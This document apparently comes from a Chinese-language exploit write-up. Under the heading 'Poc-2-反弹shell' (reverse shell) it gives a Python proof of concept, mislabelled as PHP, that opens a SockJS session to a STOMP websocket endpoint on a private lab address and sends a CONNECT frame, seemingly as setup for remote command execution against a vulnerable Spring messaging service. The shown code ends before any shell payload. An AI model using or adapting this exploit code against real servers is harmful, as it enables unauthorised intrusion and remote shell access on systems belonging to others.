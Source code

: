 #### Poc-2-反弹shell

```php
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))

class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)

    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))

        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()

sockjs = SockJS('http://192.168.253.7:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
```